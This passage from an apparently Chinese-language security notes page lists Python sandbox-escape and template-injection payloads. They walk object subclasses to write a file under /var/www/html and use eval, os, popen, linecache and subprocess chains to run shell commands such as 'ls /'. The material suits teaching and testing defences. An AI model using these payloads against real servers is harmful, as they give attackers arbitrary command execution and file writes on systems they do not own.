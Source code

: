 #### Ⅳ.执行任意命令

```python
().__class__.__base__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')

```



```python
# eval 
x[NUM].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') 

# os.py
x[NUM].__init__.__globals__['os'].popen('ls /').read()

# popen
x[NUM].__init__.__globals__['popen']('ls /').read()

# _frozen_importlib.BuiltinImporter
x[NUM]["load_module"]("os")["popen"]("ls /").read()

# linecache
x[NUM].__init__.__globals__['linecache']['os'].popen('ls /').read()

# subprocess.Popen
x[NUM]('ls /',shell=True,stdout=-1).communicate()[0].strip()
```





#### Ⅴ.替换模板

<figure><img src="../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>


